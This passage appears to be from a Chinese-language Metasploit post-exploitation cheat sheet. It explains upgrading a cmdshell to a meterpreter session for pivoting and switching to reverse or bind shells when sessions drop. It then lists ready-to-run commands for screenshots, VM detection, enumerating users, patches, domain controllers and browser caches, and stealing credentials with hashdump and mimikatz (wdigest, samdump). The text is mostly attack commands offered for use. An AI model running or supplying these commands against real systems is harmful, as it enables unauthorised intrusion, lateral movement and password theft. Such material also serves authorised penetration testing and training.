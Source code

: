 如果最开始获取的是 cmdshell,后来发现这台机器非常适合作为测试其它终端的跳板,这个时候 cmdshell 的功能已经不能满足需要,升级成 meterpreter 就十分有必要.`sessions -u "id"` 将该 cmdshell 升级成 meterpreter

**注意事项**

如果 meterpreter session 创建成功了,但很快就断连,此时应该修改使用的 payload,优先改成 generic/shell_reverse_tcp 等

如果还不成功,切换回连端口或者改成 bind shell 试试

### 信息收集

**截屏**

```bash
use espia
screenshot
screengrab
```

**环境检测**
```bash
run post/windows/gather/checkvm                         # 是否虚拟机
run post/linux/gather/checkvm                           # 是否虚拟机

getuid                                                  # 查看当前用户

run post/windows/gather/enum_applications               # 获取目标主机安装软件信息;
run post/windows/gather/enum_patches                    # 查看目标主机的补丁信息;
run post/windows/gather/enum_domain                     # 查找目标主机域控.
run post/windows/gather/enum_logged_on_users            # 列举当前登陆过主机的用户;
run post/windows/gather/credentials/windows_autologin   # 抓取自动登陆的用户名和密码;

run post/windows/gather/forensics/enum_drives           # 查看分区
run post/windows/gather/enum_applications               # 获取安装软件信息
run post/windows/gather/dumplinks                       # 获取最近的文件操作
run post/windows/gather/enum_ie                         # 获取 IE 缓存
run post/windows/gather/enum_chrome                     # 获取 Chrome 缓存
run post/windows/gather/enum_patches                    # 补丁信息
run post/windows/gather/enum_domain                     # 查找域控
```

**抓取密码**
```bash
run hashdump                        # 获取用户密码 hash 值
load mimikatz                       # 加载 mimikatz,用于抓取密码,不限于明文密码和 hash 值;
msv                                 # 获取的是 hash 值
ssp                                 # 获取的是明文信息
kerberos
wdigest                             # 读取内存中存放的账号密码明文信息
mimikatz_command -f samdump::hashes # 获取用户 hash
mimikatz_command -f handle::list    # 列出应用进程
mimikatz_command -f service::list   # 列出服务

或

use post/windows/gather/hashdump
set session 1
Exploit
```

